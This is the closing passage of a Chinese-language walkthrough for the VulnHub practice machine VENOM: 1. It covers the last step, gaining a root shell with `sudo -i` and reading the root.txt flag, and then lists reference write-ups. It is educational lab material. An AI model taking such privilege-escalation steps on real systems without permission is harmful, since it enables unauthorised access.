    
7. 取得 root shell
    - 使用 `sudo -i` 指令切換為 root 身分
    
    - 進到 `/root`，打開 `root.txt` 檔案，得到 flag
    

## 參考資料

- [vulnhub 靶場之 VENOM: 1](https://www.cnblogs.com/upfine/p/17101102.html)
- [VENOM: 1 Vulnhub Walkthrough](https://subodhsharma1045.medium.com/venom-1-vulhnub-walkthrough-b7dc61692083)